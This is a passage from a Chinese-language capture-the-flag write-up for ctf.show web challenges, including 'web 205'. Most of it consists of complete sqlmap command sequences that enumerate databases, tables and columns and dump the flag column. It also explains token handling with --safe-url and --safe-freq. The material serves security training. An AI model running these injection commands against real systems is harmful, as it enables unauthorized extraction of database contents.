 `--cookie="xxxx"`

```bash
# 爆数据库   ctfshow_web
sqlmap -u https://78628529-78f4-4893-83d7-ca111a1d0e11.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --dbs --headers="Content-Type:text/plain" --cookie="8tabnpij74cu06necss480g05q"
# 指定数据库来爆表名     ctfshow_user
sqlmap -u https://78628529-78f4-4893-83d7-ca111a1d0e11.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --headers="Content-Type:text/plain" --cookie="8tabnpij74cu06necss480g05q" -D ctfshow_web --tables
# 指定数据库,表爆字段   id,pass,username
sqlmap -u https://78628529-78f4-4893-83d7-ca111a1d0e11.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --headers="Content-Type:text/plain" --cookie="8tabnpij74cu06necss480g05q" -D ctfshow_web -T ctfshow_user --columns
# 指定数据库,表,字段,列表爆数据
sqlmap -u https://78628529-78f4-4893-83d7-ca111a1d0e11.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --headers="Content-Type:text/plain" --cookie="8tabnpij74cu06necss480g05q" -D ctfshow_web -T ctfshow_user -C pass --dump
```

## web 205

 api调用需要鉴权

 f12打开网络界面，在查询框输入1，可以看到网络调用api时，还请求了一个getToken.php

 ![token](https://the0n3.top/medias/show-sql/1.png)

- –safe-url:意思是访问目标网址前需要访问的地址
- –safe-freq是每两次间访问gettoken的次数，设置为一次

例如`--safe-url http://390b4a5e-c0c5-474e-a544-aa399aeb858c.challenge.ctf.show/api/getToken.php --safe-freq 1`

这一题不能带cookie跑，cookie是变化的，这一次flag的位置不在ctfshow_user表里了，在新的表ctfshow_flax里

 ```bash
# 爆数据库   ctfshow_web
sqlmap -u https://515213bd-0688-4e01-800c-8df1cbc8faa0.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --dbs --headers="Content-Type:text/plain" --safe-url https://515213bd-0688-4e01-800c-8df1cbc8faa0.challenge.ctf.show/api/getToken.php --safe-freq 1
# 指定数据库来爆表名     ctfshow_flax
sqlmap -u https://515213bd-0688-4e01-800c-8df1cbc8faa0.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --headers="Content-Type:text/plain"  -D ctfshow_web --tables --safe-url https://515213bd-0688-4e01-800c-8df1cbc8faa0.challenge.ctf.show/api/getToken.php --safe-freq 1
# 指定数据库,表爆字段   flagx,id,tes
sqlmap -u https://515213bd-0688-4e01-800c-8df1cbc8faa0.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --headers="Content-Type:text/plain"  -D ctfshow_web -T ctfshow_flax --columns --safe-url https://515213bd-0688-4e01-800c-8df1cbc8faa0.challenge.ctf.show/api/getToken.php --safe-freq 1
# 指定数据库,表,字段,列表爆数据
sqlmap -u https://515213bd-0688-4e01-800c-8df1cbc8faa0.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --headers="Content-Type:text/plain"  -D ctfshow_web -T ctfshow_flax -C flagx --dump --safe-url https://515213bd-0688-4e01-800c-8df1cbc8faa0.challenge.ctf.show/api/getToken.php --safe-freq 1
```
